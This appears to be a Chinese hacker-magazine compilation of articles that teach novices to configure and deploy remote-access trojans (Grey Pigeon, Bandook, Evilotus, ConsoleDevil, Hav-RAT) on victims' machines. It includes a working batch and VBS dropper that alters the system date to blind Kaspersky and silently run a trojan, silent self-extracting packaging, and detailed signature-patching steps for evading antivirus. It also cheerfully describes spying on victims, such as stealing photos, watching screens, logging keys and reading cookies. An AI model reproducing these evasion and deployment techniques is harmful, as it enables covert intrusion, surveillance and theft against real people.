对于灰鸽子威胁最大的是什么杀毒软件？很多专杀工具依据默认安装路径和默认插入进程来判断是否中马。若修改默认安装路径（如 WinDir\winnt）和文件名（例如伪装为 `svchost.exe`）可提升迷惑性（图1）。


其余配置按需设置，生成服务端后可先自测。若无报错，显示隐藏文件后可看到目录新增 `svchost.exe`。接下来还可修改插入进程，默认插入进程是 `IEXPLORE.EXE`。


## 骏马记

`IEXPLORE.EXE`，我们来把它改掉，好让它更隐蔽，也可以逃过一些专杀工具的眼睛。首先使用 WINHEX 打开服务端，然后点“搜索—查找文本”，在里面输入 `IEXPLORE.EXE`，一共找到两处。第一处在修改的时候从 `PROGRAM` 开始，改成 `svchost.exe`，后面的全部用空格填充（图2、图3）。然后来到下一处，直接把 `IEXPLORE.EXE` 改成 `svchost.exe`，后面的也使用空格填充（图4、图5）。最后保存文件，运行修改后的服务端，正常上线。


使用灰鸽子专杀工具来测试修改后的服务端，先使用瑞星的吧，没有发现灰鸽子（图6）。我又使用别的灰鸽子专杀工具测试，还算不错，只有一种专杀工具查到了（图7）。本文是我制作免杀的一点点经验，希望对各位菜鸟有所帮助，也希望大家有什么免杀的好方法一起拿到 X 上来分享！（本文所涉及到的 WINHEX 已收录到光盘中）


## 偷得屠戮病毒方，轻松过主动防御

IcECooL


随着各种免杀技术的流行，躲避杀毒软件的特征码查杀也变得越来越容易，因此各大杀软公司相继推出了主动防御，而其中技术比较成熟的莫过于卡巴斯基 6.0 了。那么我们如何来突破卡巴斯基的主动防御呢？卡巴有一个漏洞，提起这个漏洞来，其公布的时间也不短了，就是修改系统日期可以导致注册码或者 key 失效，从而导致卡巴的所有监控失效。根据这一漏洞，我们可以绕过主动防御来运行木马，方法当然是修改系统的日期（图1）。将该方法应用到木马上，可以使用批处理和 VBS 脚本结合 WinRAR 自解压来实现。通过 VBS 隐藏运行批处理文件，批处理文件修改系统日期并在执行木马后延迟恢复当前日期。批处理文件如下：


```bat
set date=%date%
date /T 1999-01-01
@echo off && setlocal enableextensions
echo WScript.Sleep 1000 > %temp%\run$.vbs
set /a i-=10
:Timeout
if %i%==0 goto Next
setlocal
set /a i-=1
cscript //nologo %temp%\run$.vbs
goto Timeout
:Next
%SystemRoot%\temp\木马.exe
copy %systemroot%\temp\run.pif %systemroot%\system32
del %temp%\run$.vbs
date /T %date%
RD /S /Q %systemroot%\temp
```


把以上批处理保存为 `time.bat` 备用。这个批处理已经被查杀，我们可替换相关文件名来达到免杀的目的，比如改成 `tnip$$$.vbs`、`tmp.SCR`、`木马.exe` 等，也可以修改变量。

## 散马记

VBS 脚本文件如下：

```vb
DIM objShell
set objShell=wscript.createObject("wscript.shell")
iReturn=objShell.Run("cmd.exe /C %systemroot%\\temp\\time.bat", 0, TRUE)
```

这三行代码相信读者们很容易看懂，将其保存为 `exec.vbs`。接下来我们把 `time.bat`、`exec.vbs` 和免杀后的木马服务端程序放在同一目录下制作 WinRAR 自解压文件。制作自解压文件时，WinRAR 的“常规”选项如图2所示那样来设置，解压文件到 `%systemroot%\temp\` 后运行 `exec.vbs`；“模式”选项中选择安静模式——全部隐藏，覆盖方式——覆盖所有文件；“文本和图标”选项中可自行设置图标，尽可能地使程序隐藏，可以使用一些比较常见的图标以免被人怀疑。

现在我们的木马已经基本完成了，但是点一下鼠标右键就暴露了我们的企图。可以给自解压文件加个压缩壳，比如 ASPack，就可以防止出现这种情况了（图3、图4），右键菜单中的“可疑”选项没有了。只要我们的木马免杀，卡巴就不会再发出杀猪般的叫声来为难大家了。美中不足的是卡巴会出现失效的提示，不过只一小会儿就会恢复，但仍能引起肉鸡主人的怀疑。（本文所涉及到的 `time.bat`、`exec.vbs` 和 ASPack 已收录到光盘中）


这是我和 mybr 使用 Delphi 编写的一款远程控制软件，控制端主要采用灰鸽子框架，重写的服务端抛弃了 FORM 窗体和控件，精简了体积；完整版为 298K，压缩版则为 129K。这款远程控制软件的功能主要包括文件管理、进程管理、注册表管理、服务管理、团体管理、插件功能、命令广播、远程 SHELL、视频和摄像头监控等。支持反向连接，采用双服务启动模式，极大地提高了上线率。采用了 `SVCHOST.EXE` 启动，可以穿过防火墙，并且更隐蔽。服务端运行后，进程是 SYSTEM 权限，所以可以抢先式运行，即在未进入系统前就可以对肉鸡进行控制，不过屏幕捕获的是白屏。除了以上这些外还有不少特色功能，下面就让我们一起走近它来看看吧。

首先打开主程序 `Client.exe`，其整体界面如图1所示。界面很漂亮，并且很像灰鸽子。那具体的配置及控制效果怎么样呢？我们用用看就知道了！


### 一、服务端配置

点击“配置服务端”后，就会弹出一个配置窗口。为了方便菜鸟的使用，生成项很简洁，详细说明如图2。——上线地址有三种填法，分别是“ip:port”“dns:port”和“http://url/ip.txt”。如果想缩小体积的话，在生成服务端时，可以选择对服务端进行压缩；程序采用偏移写入配置信息方式，所以方便生成的服务端抗免杀。

### 二、上线设置

生成服务端程序后，需要进行自动上线设置，来等待肉鸡的上线。自动更新有两种设置，分别是 FTP 和希网动态域名更新。如果我们点选了保存配置信息，程序会自动保存当前的更新设置。好了，下面就对这两种设置方式分别进行一下讲解。

#### 1. FTP 更新

图3是我设置和更新的结果。在自动上线里大家可以发现在底下多了一个“使用外部 IP”项，这是为了解决局域网和一些其它方式上网无法得到本机公网出入口 IP 而添加的。点击获取按钮，就可以得到本机的公网出入口 IP 地址了。

#### 2. 希网动态域名更新

有时会更新不成功，因此建议手工更新。


### 三、肉鸡控制

抓肉鸡有很多种方式，比如利用网站挂马就是比较流行的一种。这次，我们采用反弹方式，当有人中了我们的木马后，就会乖乖地来向我们报到了。更新完毕后，等待一会儿就会有肉鸡上线了，如图5。


大家细心的话，还会从图5中发现有一个 PING 值，这个功能是显示肉鸡的网速，免得玩起来特慢而不爽。还有 IP 地址前面的电脑小图标，如果肉鸡有视频的话，它就会显示为摄像头的样子，不需要再用筛选功能进行搜索了。

#### 1. 文件管理

如果要进行文件管理，直接在文件管理模块里进行操作就可以，因为操作都很傻瓜化，所以就不再一一进行介绍了。我喜欢在肉鸡上下载一些东西（嘿嘿，不知大家有没有这个爱好），比如相片什么的，有时还会下载电影看。因为有断点续传的功能，所以不必担心下载了一半后要重新下，在下载的时候给这台肉鸡标上备注，下次上线时接着下载就可以了。如果你想下载 MM 肉鸡上的相片，可是她的网速特别慢，那怎么办？呵呵，这个我早就考虑到了，所以增加了一个远程文件压缩/解压缩和本地文件压缩/解压缩功能。因为相片的压缩比比较大，所以 1M 多的相片压缩后也就几十 K，很快就会下载到本机上来，一样漂亮。下载过程中，还能准确显示当前的下载量、下载速度和剩余时间。如图6就是我在肉鸡上下载东西的截图，下载速度为 316.83kb/s。嘿嘿，是不是很爽！

#### 2. 进程管理

因为系统信息、传输管理和注册表都很简单，在此就不再进行过多的介绍了。进程管理加入了显示进程路径功能（图7），以方便大家对进程的管理和分析，看看有没有人来抢我们的肉鸡（比如屏幕监控时没有发现打开，但是传输模块发现了 IE 的进程，那就说明你的肉鸡在被你玩，同时还在被别人玩着）。反正我碰到好几次这样的情况了，没有二话，肉鸡是我的，谁抢踢谁。


#### 3. 窗口管理

可以显示当前打开的所有窗体和窗体句柄，在窗体名称上右单击，就会弹出一个快捷菜单，可以对窗体进行关闭、隐藏和最小化等操作（图8）。


## 牧马记

#### 4. CMD 命令执行

在这个功能中加入了两种执行 CMD 命令的方式，各有优缺点，大家可以按需要进行使用（图9）。“执行模拟 DOS”可以躲过卡巴的主动防御，不过返回结果比较慢（因为加入了延时，所以使用起来还不错）。

“开启 TELNET”，当执行这个命令后，肉鸡会新建一个 CMD 进程，服务端通过双管道和 CMD 进行信息的读写交互操作。这个使用起来比较爽，不过却不能躲过卡巴的主动防御。


#### 5. 屏幕监控和控制

当我们想看看 MM 在玩什么时，必然会想到屏幕监控。而对于屏幕监控，重点在于图像的实时传输，并且 CPU 和内存的占用率不能太高。程序采用差异捕屏和灰度 16 位色压缩传输，虽然看起来不如真彩色爽，但我以台湾、韩国还有欧美国家的肉鸡进行测试，发现监控效果还是很不错的，实时还是能够达到的（图10）。并且如果需要的话，我们还可以对远程电脑进行键盘和鼠标操作。

#### 6. 其它个性功能

因为在对 3.92 版本进行大面积肉鸡测试时发现了一系列的问题，所以这一版本就加强了对大面积肉鸡管理工作的支持，加入了上线延时、肉鸡上线数限制、肉鸡超限转移和批量转移等功能，如图11。


顺便说一句，如果上线过快的话，它会有一个缓冲过程，所以不会立即停在指定的上线数上。这个软件还有很多其它个性的功能，在这里就不再一一进行详解，大家动手试试就知道了。

### 三、写在最后

因为 X 是我学习黑客技术的启蒙老师，所以今后我会不断地给 X 制作强大的专版远程控制软件，以供咱们 X 的菜鸟读者免费使用，也希望广大读者能够一如既往地支持 X，大家一起学习，一起进步！

> 【本文所涉及到的小熊远控黑 X 专版已收录到光盘中】

## 做游戏也来玩远程控制

Maxthon（傲游）大家都应该听说过，甚至有许多读者也使用过吧。这是一款比较不错的浏览器，而 Maxthon Access 则是 Maxthon 官方发布的一款插件，主要功能是帮助 Maxthon 用户通过浏览器实现远程登录。只要注册一个帐号，就可以在外出时让家人或同事打开你的计算机，进行远程下载文件，而不需要架设服务器等麻烦的过程，这个功能非常实用！


### 一、准备工作

- 1. 安装软件：要实现远程登录，首先必须安装最新版本的 Maxthon。为了正常使用 Maxthon Access，建议将 Maxthon 设为系统的默认浏览器（图1）。然后再安装 Maxthon Access（图2、图3）。
- 2. 注册帐号：安装完毕后就来注册个帐号吧（图4）。在“You must be at least 13 years of age to use the Maxthon service. Please indicate you are over 13 by selecting your age range.”中选择你的岁数，这项一定要选，可以随便选择。然后点击“Continue”，会弹出下一步画面（图5），接着点击“Free Version”就会跳到 Maxthon 的登录窗口。


### 第3步：本地登录

输入刚才注册的帐号以及密码（图6），接着点击“Log In”，登录成功后就会看到本地磁盘的内容了（图7）。

### 二、轻松实现远程登录

### 第1步：远程登录

当我们出门在外时，只要主机已经与互联网成功连接，无论我们在何处，只要以用户名登录 https://share.avvenu.com/login，就可以访问已经连接到互联网上的主机了。

### 第2步：浏览文件

正常远程登录自己的主机后，默认进入的是“My Computer”，也就是“我的电脑”中的内容，点击某个盘符对应的就是打开某个盘，操作起来与在自己电脑上没有什么分别（图8）。

## 牧马记


下载一些好玩儿的东西，那么主机上存放的重要私用数据又该如何保护呢？有没有两全其美的办法呢？我想到 Gmail、Windows Live Messenger、Windows Live Mail 等 Beta 版试用时都是以邀请制度限量开放，那么下载主机文件时也可以使用邀请制，下面就教大家如何实现。

### 第1步：选择安全文档

首先将我们需要共享的文件整理到 D 盘下名为“共享”的文件夹里。

### 第2步：发放邮件邀请

打开 D 盘下的“共享”文件夹（图11），单击“Share Folder”进入共享设置页面（图12）。


### 第3步：远程下载

进入准备下载的文件夹，如果只是需要下载单个文件，从右键菜单中选择“另存为”即可。如果需要下载整个文件夹，可以点击页面右上角的“Download Folder”链接，它会弹出一个页面，提示该文件夹包含的文件数量和体积，确认后将要下载的文件夹打包为 ZIP 压缩包开始下载（图9）。受邀者仅支持浏览器直接下载，不支持 FlashGet、迅雷等第三方工具下载。

相同地，亦可上传文件。点击页面右下角的“Upload Here”链接，它会弹出一个页面（图10）。选择本地要上传的文件后，点击“Upload File”即可。


### 三、适度开放权限

自己的电脑上有许多好玩儿的游戏，不少同学跑到我主机……

在“Add New Contact”中输入电子邮件地址，然后单击“Add”按钮将它添加到右侧的“Share with Recipients”列表框中（图13）。按照同样的方法可以继续邀请其他朋友参与，最后单击页面底部的“Share Now”按钮完成设置，系统会向列表中的邮箱地址自动发送邮件邀请。对方单击邮件中的链接即可访问你开放的共享文件夹（图14）。

## 超强远控 Bandook v1.35

丁丁@[W.S.T]


目前的病毒木马满天飞，各种远程控制软件也层出不穷，但其功能强大到让人痴迷的却寥寥无几。然而 Bandook 强大的功能却足以让菜鸟感到满意，并且结合其服务端的“保护服务端 SDTrestore”选项，能够完美隐藏进程，躲过杀毒软件的主动防御。如此优秀的木马，还是让我们一睹芳容吧（图1）。

### 一、主控界面选项

“端口监听”是用来添加反弹连接端口，可以添加多个，这样有个好处是可以防止单端口上线过多不够用；“捷径”可以用来进行快捷化操作，省去了点右键菜单的麻烦。此处可以根据爱好对相应的功能用鼠标右键进行添加/删除捷径（图2）。

### 二、服务端配置及运行效果

Bandook 支持多种上线方式和备用 DNS 上线以及 IP 转向，其中 IP 转向文件采用加密而非明文显示。配置时选择“IP 地址转向”，用“设置 IP 转向生成器”生成上线文件，并把 settings.txt（程序同目录下）上传到你的空间，然后在“连接到包含有加密设置文件处”填写访问地址。上线设置中顺序添加首选及备用 DNS/IP 一共三个。从下拉菜单中选择木马文件“安装目录”“文件名称”“端口”和“肉鸡ID”可以自己设置。启动方式有两种选择，默认为 Active（这是国外木马常用的启动方式），可以同时选择 HKCU 启动。“保护服务端”功能是隐藏进程……


## 骇马记


连 IceSword 都无奈了（图3、图4）。

“SDTrestore”这个功能可要盯上，过卡巴主动防御就靠它了。我们在另外一台电脑上运行木马，结果卡巴在主动防御全开的情况下没有任何反应（图5）。

“网络键盘记录”和“IM 间谍”想用就选上吧，最后点“生成”，Bandook 同目录下的 bandook.exe 就是配置好的木马（图6）。

### 三、客户端介绍

添加并开启端口监听，等待我们的肉鸡上线。上线的时候有类似 MSN 的上线提示，很人性化吧。一般的功能它都有，着重给大家介绍一下使用过程中应该注意的地方和一些其它远程控制没有的功能。

使用很多功能的时候需要安装插件，先来看看插件的安装（图7）。选择需要功能的对应插件，选择“安装”为远程安装，“直接安装”则是从客户端下载插件并安装。如果成功安装的话则有如图8所示的显示。


可怕的是可以对文件进行感染，具体怎么样就留给大家自己体验吧（图9、图10）。

#### 1. 文件管理

功能相当强大，可以对文件目录进行打包压缩成 RAR 格式，也可以进行 FTP 上传，更……

#### 2. 桌面监控

传输做得不是很理想，还是我们中国的技术好啊。如果想进行控制必须做好设置才行，Options —— Enable Click 为打开鼠标点击，Timer —— Set time 为设置图像抓取延迟时间，然后 Enable 回主菜单 Track，这样就可以进行控制了（图11）。

#### 3. 主要插件功能

代理功能：可分 SOCKS 和 HTTP 代理，这个相当有用啦，刷业务的时候肯定要用到的；服务器架设：HTTP 和 FTP 服务器，没有空间的话可以在肉鸡上挂个站哦；端口重定位：端口转发功能，入侵的时候会用到很多吧；VNC：重点说的是这个功能了，虽然本身的远程控制不好用，但是强大的 VNC 完全可以弥补自身的不足，用来提供简捷的远程控制（图12）；缓存读取：读取对方的 cookies 和网站访问记录，窥探对方隐私，这个功能也是很好的（图13）。

好了，强大的功能大家都见识到了吧，其它的琐碎功能不多做介绍，还是等各位黑友自己发掘吧。


### 四、服务端查杀

通过分析得知该木马是 EXE 文件插入进程，而且有两种启动方式。虽然我们终止进程有一定难度，但是由于木马对启动项保护不好，让我们很容易就找到了猫腻。查杀相当简单，运行 Autoruns 查看启动项，在“登录”中可以查看启动项，分别位于注册表以下两个位置（图14）：

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Runonce
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```


首先手动终止 Explorer，取消可疑启动项，然后打开 ActiveX 扫描器，找到可疑 ActiveX 启动项并删除 C:\windows\system32\ali.exe，重启后删除对应文件即可（图15）。

> （本文所涉及到的 Bandook v1.35、冰刃、Autoruns、ActiveX 扫描器已收录到光盘中）

## 灰鸽子2006免杀跟我学

最近一网友给了我一个灰鸽子 VIP 2006 版的服务端程序，说是浩天制作的免杀程序。我拿来一测试发现果然可以躲过大多数杀毒软件的查杀，但是唯一的遗憾就是无法躲过最新版本卡巴斯基的查杀。于是我决定在此基础上进行修改，好让它也能轻松躲过卡巴斯基的查杀。

### 一、导出相关文件

首先运行程序资源修改工具 Restorator V2006，点击工具栏上的“打开文件”按钮，从弹出的窗口中选择灰鸽子服务端程序。接着在 Restorator V2006 的资源树下，选择“RCData”中的“MAINDLL”项，然后点击鼠标右键选择“导出为”命令，在弹出的窗口中将这部分资源另存为“MAINDLL.dll”（图1）。

接着通过 Restorator 中的“打开文件”命令，选择刚刚保存的“MAINDLL.dll”，然后按照上面的方法在资源树中依次找到“RCData”中的“GETKEY”这一项，同样将它另存为“GETKEY.dll”。从名称我们已经可以看出这个 DLL 文件是用于键盘记录操作的（图2）。


## 牧马记

### 二、对“GETKEY.dll”免杀

首先对“GETKEY”进行免杀，我利用 OllyDbg 更改文件头来进行免杀。首先打开 OllyDbg 并载入“GETKEY”，OllyDbg 停在 003DC558 这一句上，这就是程序的入口点。接着来到入口点 003DC558 这句，向下选择 4 行并点击右键菜单，选择“复制”菜单中的“到剪贴板”命令。复制完成后，同样点击鼠标右键，选择“二进制”菜单中的“使用 NOP 填充”命令，将这 4 行代码进行填充（图3）。

现在拖动 OllyDbg 的侧边栏，找到一段程序的空白地址，我找到的是 003DC5FA 这个地址。首先点击右键菜单中的“汇编”命令，依次在“汇编”窗口中将刚刚复制的 4 行代码写入。接着还需要在第 4 行代码后添加一句 `jmp 003DC560`（图4），从而使程序能够跳转回原来的第 5 行代码，保证文件运行的连贯性。


图2


图3


图5

文件头修改完成后，我们来进行文件的保存。选择右键菜单中的“复制到可执行文件”，接着在它的子菜单中选择“全部修正”命令。接着弹出一个标题为“复制所选到可执行文件”的窗口，并点击其中的“全部复制”按钮，最后在弹出的新窗口中点击鼠标右键，点击“保存文件”命令将我们修改的程序另存为即可。


图4

由于刚刚对文件头进行了修改，这里需要利用 PEditor 更改文件的入口点。运行 PEditor，点击“浏览”按钮选择刚刚修改好的文件。PEditor 会自动读取服务端程序的“文件信息”，我们将原来的入口点 0000C558 更改为现在的入口点 003DC5FA，然后点击“应用更改”按钮对刚才的设置进行确认即可（图5）。现在再使用卡巴斯基对其进行查杀，发现已经通过了检测。

### 三、对“MAINDLL.dll”免杀

使用 Restorator 打开“MAINDLL.dll”这个文件，接着在资源树中依次找到“RCData”中的“GETKEY”这一项，通过右键菜单中的导入命令将制作后免杀的“GETKEY.dll”导入，替换掉本身的“GETKEY”这一项，然后通过“文件”菜单中的“另存为”命令将其保存为“MAINDLL.dll”。

最后使用卡巴斯基对这个新的“MAINDLL.dll”进行查杀，发现这个文件还是被杀毒软件检测出了。下面利用现成的工具对这个文件进行加花处理。运行牧马游侠E的“超级加花器”，将 DLL 文件直接拖动到程序的主界面进行释放。接着在“花指令”下拉列表中选择一种花指令，单击“加花”按钮即可。


（文章中涉及到的工具 Restorator V2006、OllyDbg、PEditor、牧马游侠E的“超级加花器”、灰鸽子2006 已经收录于光盘中）

### 四、对服务端程序免杀

使用同样的方法，用 Restorator 打开木马的服务端程序，在资源树中依次找到“RCData”中的“MAINDLL”这一项，接着通过右键菜单中的导入命令将制作后免杀的“MAINDLL.dll”导入替换到服务端程序中原本的内容，最后同样对修改的服务端程序进行另存为。

然后再利用杀毒软件对这个文件进行检测，发现服务端程序还是被查杀。再同样利用“超级加花器”对其进行加花，接着利用北斗对服务端程序进行加壳，最终使得服务端程序也成功躲过卡巴斯基的查杀。

## Evilotus 服务端的免杀


icep0wer（李冰）

在今年第3期的黑客X档案中介绍了 evilotus 这款木马，今天我就以它为例来说明一下如何制作服务端的免杀。我的目的是让服务端程序可以躲过卡巴、金山和瑞星的查杀。

### 步骤1：

我们使用 PEiD 对 Evilotus 的服务端进行检测，发现为“UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo [Overlay] 壳”。在第3期杂志中给出的 evilotus 生成的服务端是无法使用 upx.exe 脱壳的，所以本文我使用的是 evilotus 1.3.2 版。将生成好的服务端 Setup.exe 和 upx.exe 存放在同一目录下，在 CMD 里找到 upx.exe 存放的路径，输入 upx.exe -d Setup.exe，就会脱壳成功了，如图1。

```bash
upx.exe -d Setup.exe
```


再次使用 PEiD 检测一下，提示是“Borland Delphi 6.0 - 7.0 [Overlay]”，如图2，脱壳成功。另外说明一下，好多读者都不明白“[覆盖]”是什么意思，其实这个“[覆盖]”是说明有附加数据，因为不是本文的重点，我就不细说了。


### 步骤2：

使用 Restorator 2007 将 Setup.exe 里的唯一一个 dll 文件导出来（我在使用 Restorator 2006 时出现了一些问题，所以还是使用 Restorator 2007 吧），如图3。我将导出来的 dll 文件另存为 123.dll。


### 步骤3：

在 CMD 里输入 upx.exe -d 123.dll，对 123.dll 进行脱壳。

```bash
upx.exe -d 123.dll
```

### 步骤4：

使用 Mycc1 找出 123.dll 的特征码，然后使用 OD 进行修改。如果还不知道怎样使用 Mycc1 定位特征码，请读者仔细查阅今年第2期的黑客X档案。我测试时只有瑞星会杀掉这个 dll 文件，特征码为 0000C871_00000002。使用 C32asm 以十六进制的形式打开 123.dll，按 ALT+G，然后输入 0000C871，如图4。


在 0000C871 处切换到汇编模式（图5），只要将下面两行代码换一下位置就好了（图6）。

## 牧马记

```asm
0040C86F  83C4 C4        ADD ESP,-3C
0040C872  B8 74D34000    MOV EAX,403D74
```

最后再使用 Restorator 将修改后的 DLL 文件导入到 Setup.exe，直接拖进去覆盖原来的 DLL，接着点保存。

### 步骤 5

使用 Mycck 和 C32asm 修改 Setup.exe 的特征码。

- 卡巴的特征码：000045A0_00000002
- 金山特征码：0000499E_00000002
- 瑞星特征码：0000498D_00000002

```asm
004046C8  E8 FBCFFFFF    CALL 004016C8
004046CD  6A 01          PUSH 1
```

```asm
00404998  E8 57FCFFFF    CALL 004045F4
0040499D  E8 DAC2FFFF    CALL 00400C7C
004049A2  8BC0           MOV EAX,EAX
```

```asm
0040498B  83C4 F0        ADD ESP,-10
0040498E  B8 C0544000    MOV EAX,4054C0
```

按理说现在这样已经可以得到一个免杀的服务端了，但是运行后提示在 `C:\Documents and Settings\Administrator\Local Settings\Temp` 下发现了病毒（图7），但木马还是成功上线了（图8）。

看来服务端程序会在运行过程中释放一个被杀的临时文件，虽然现在已经可以上线了，但是那个被杀的临时文件仍然会露出马脚。既然要做免杀，就要力求完美。

**小知识：**

- `je` 或 `jz`：若两数相等则跳转。
- `jne` 或 `jnz`：若两数不相等则跳转。
- `call`：在需要时调用相应子程序执行。

使用 OD 打开经过前面几步处理过的 Setup.exe，查看到底是哪条命令释放了临时文件，如图9。

| 地址 | 十六进制 | 反汇编 |
|---|---|---|
| 0040558B | 55 | push ebp |
| 0040558C | 8BEC | mov ebp,esp |
| ... | ... | ... |
| 0040559D | E8 52FCFFFF | call ... |

按 F8 单步执行，执行到 `0040559D` 处调用后弹出图7所示对话框，说明该调用产生了临时文件。

| 地址 | 指令 |
|---|---|
| 004051F4 | push ebp |
| 004051F5 | mov ebp,esp |
| 004051F7 | mov ecx,5000000 |
| ... | ... |

重新运行并跳转到 `004051F4`（程序A），继续按 F4、F8 跟踪，定位到子程序B（图11）。

| 地址 | 指令 |
|---|---|
| 00405168 | push ebp |
| 00405169 | mov ebp,esp |
| 0040516B | push 0 |
| 0040516D | push ebx |
| 0040516E | xor eax,eax |

继续执行后发现 `0040518E  E8 C1FFFFFF  call Setup.00405154` 也会产生临时文件，说明子程序B又调用了其他子程序。

子程序C……真是无穷无尽的调用啊，如果再这样分析下去估计菜鸟们就该晕了，我也难免有骗稿费的嫌疑，所以最后直接把结论写出来吧。主程序—子程序A—子程序B—子程序C—子程序D—`call esi`，子程序D的最后几句如下：

```asm
0040432B  6A 01      push 1
0040432D  55         push ebp
0040432E  FF D6      call esi
```

`esi` 是一个寄存器，当子程序D执行到 `call esi` 时，`esi` 的值为 `10001b60`。意思是调用位于 `10001b60` 处的子程序，而 `10001b60` 已经不属于 `Setup.exe` 在内存中的地址，所以我们已经找到 `Setup.exe` 中产生临时文件的罪魁祸首了，那就是子程序D里的 `call esi` 这条指令。

根据上面找到了，接下来修改这段代码让服务端运行时不产生临时文件。先 NOP 掉 `0040432E` 试试，双击 `0040432E`，在弹出的窗口中写 `nop` 然后点汇编，如图13。记得在“使用 NOP 填充”前打勾，然后选中刚才的两个 nop，右键单击，点击“复制到可执行文件”→“选择部分”，如图14。在弹出的新窗口的黄色部分右键单击，点保存文件，如图15。

看来别人的代码不是随便就可以改的啊。那该怎么办呢？就在我陷入迷茫准备放弃之时，一条指令映入我的眼帘：`00404327 74 0F`，`je short 00404338`，如图17。

```asm
00404325 85F6          test esi,esi
00404327 74 0F         je short 00404338
00404329 6A 00         push 0
0040432B 6A 01         push 1
0040432D 55            push ebp
0040432E FFD6          call esi
```

如果程序在 `00404327` 处跳到 `00404338` 处的话，临时文件不就不会产生了吗？把 `je` 改成 `jne`（或者 `jnz`），这样跳转的条件就成立了。修改后保存。双击运行后成功上线，端里再也没有弹出那个烦人的小框框。

（本文所涉及到的 Evilotus 1.3.2、peid、upx.exe、Restorator 2007、Mycck、C32asm 和 Ollydbg 已收录到光盘中）

## 迷你的小马 ConsoleDevil

现在的木马程序两极分化的情况越来越明显：一些木马程序功能越来越强大，当然其后果就是服务端程序的体积也越来越大；而另外一些木马程序的体积则越来越小，功能也少，像是一个加强版下载者程序。

今天要为大家介绍的这款木马，就属于这类超级迷你类型的，但它却在服务端程序的隐藏上下足了功夫，它就是 ConsoleDevil。

解压后的文件夹里只包括主程序和配置信息两个文件。运行木马的客户端程序，界面如图1所示，从图中可以清楚看到客户端程序操作界面的布局是相当简洁的。

先来配置一个服务端程序，点击“配置”菜单中的“生成服务端”按钮，在弹出的“生成服务端”窗口中程序会通过向导方式一步步帮助用户进行配置。首先设置服务端程序的上线地址，可以使用 DNS 或者 IP 地址（图2），接着设置上线监听端口，默认监听端口为 8000，用户可以根据需要进行更改。

然后是设置服务端程序的安装名称，接着选择服务端程序是否自动启动，如果是的话就需要设置一个启动服务的名称了（图3）。最后还有一个特别的选项，让用户选择服务端程序是否写入持续性配置，简单地讲就是是否通过移动设备来进行服务端感染（有点类似 U 盘传播，图4）。配置完成后生成服务端。

现在我们将配置好的木马服务端上传到另一台远程计算机中双击运行，然后就可以运行木马客户端程序等待远程计算机上线了。当有远程计算机上线后，我们就可以进行操作了：在已上线主机上点击鼠标右键即可看到控制命令，其中最常用的是“上传”操作，点击“上传”后选择要上传的文件，随后文件会自动上传到远程系统的 System32 目录中（图5）。

或许有朋友可能要问，就一个“上传”命令对我们有什么用呢？我们在入侵肉鸡的时候，常常会用到“一句话 ASP 木马”，然后通过它来上传其它功能更强大的 ASP 木马，我们完全可以利用它来为上传其它功能更强大的木马来进行控制操作。除此以外，我们还可以在上线列表中双击，然后会弹出一个远程 CMD 窗口，在这里可以通过命令提示符功能对系统进行控制，当然也是通过它来执行刚才上传的程序文件的（图6）。

ConsoleDevil 的控制功能与目前常用的国产木马相比可以说是简陋了，但是我们在控制服务器或是大规模肉鸡时，正是需要功能简单、隐藏性强、上线稳定的木马，ConsoleDevil 就是你不错的一个选择。（本文所涉及到的 ConsoleDevil 已收录到光盘中）

## 瑞典木马新秀

### Hav-RAT 1.3.0

### 1. 木马一览

先让我们一睹这款新秀小马的芳容吧。木马的主界面非常简洁，在上方一共有“在线主机”、“配置”、“创建新的服务端”、“皮肤”、“选择”以及“关于 Hav.Rat”六大项，如图1。

### 2. 服务端配置

我们点击“创建新的服务端”来对服务端程序进行配置，如图2。

上线方式：Hav-RAT 采用了 DNS 和 IP 上线两种方式，而没有采用 IP 文件上线方式，因此我们需要使用动态域名或者固定 IP 地址才行。  
上线端口：采用了随机生成模式，当然各位读者也可以使用默认选项。  
服务端密码：Hav-RAT 小小的一个功能让人感觉很贴心，当你配置的木马已经安装到肉鸡上时，却发现密码忘记了，到手的肉鸡丢了多可惜啊，密码备忘功能能够提醒你回忆起你的密码，不至于因密码丢失而丢失肉鸡而沮丧。  
安装选项：木马植入目录有三个选择，Windows、System/System32 或者 Program 目录，还可以选择自启动、删除自身以及键盘记录，相信这三项大家都会选上的。服务端标签和服务端程序名可以按照自己的喜好来进行设置。最后点击左下角的“创建服务端”按钮就可以生成服务端程序了。

（续接上栏）点击上方的“配置”按钮来到木马客户端的配置界面，如图3。客户端监听端口和屏幕控制监听端口以及密码设置与服务端中的设置操作类似，在“其它设置”里如果选择“安装服务端时显示通知用户安装消息”，会在连接时右下角显示 MSN 风格的消息通知，如图4。

### 3. 客户端选项

### 4. 个性化皮肤

Hav-RAT 采用了皮肤插件，有多种皮肤可供大家挑选，还可以自定义皮肤和色调，这里就不多做介绍了，大家自己体验吧（图5）。

### 5. 主要功能

（1）系统信息  
这个功能主要是用来获取服务端的配置信息和计算机的基本硬件信息的，如 CPU、内存、操作系统等（图6）。

（2）文件管理  
首先获取磁盘列表，然后选择对应盘符即可自动获取目录文件，同时拥有文件上传、下载、删除、执行的功能，缺点是不能对文件夹进行下载，每次只能操作单一文件（图7）。

（3）声音管理  
这个功能可以双向播放和录制声音，也就是可以把本地声音录制并发送到肉鸡，也可以把肉鸡上录下的声音传送回本地。同时可以利用 MediaPlayer 进行播放，上部分是用来本地录音和发送声音，下部分是用来远程录音并传送回声音的，右侧 MediaPlayer 组件可以用来播放录音（图8）。

（4）PC 控制  
除了有开关机、重启等类似于恶作剧的功能外，还有诸如锁定任务栏、开始菜单隐藏、时间隐藏和交换鼠标左右键等等功能（图9）。其中比较有用的是脚本管理功能，可以直接执行 HTML 代码处理，省去了我们上传文件再去执行的时间。

（5）屏幕捕获  
这款木马的屏幕捕获的传输速度相对来说比较迟缓，和那些老牌木马相比相差太远，而且只有捕获也没有控制功能，仅供菜鸟娱乐吧（图10）！

除了以上的功能外，Hav-RAT 还有进程管理、键盘记录和 SHELL 功能，这些常用的功能就不再赘述了。这款木马的上线稳定性能还可以，在绕过杀毒屏幕截图的算法上有待提高，算是一款娱乐型的远程控制软件吧！

（本文所涉及到的 Hav-RAT v3.0 已收录到光盘中）

## 菜鸟的无间后门

木马病毒横行网络，杀毒软件也在忙碌着四处封杀，再强悍的木马后门程序只要在网络上现过踪迹，就很难逃脱杀毒软件的穷追猛打……下面我就给大家介绍一款系统中的无间间谍——rcmdsvc。

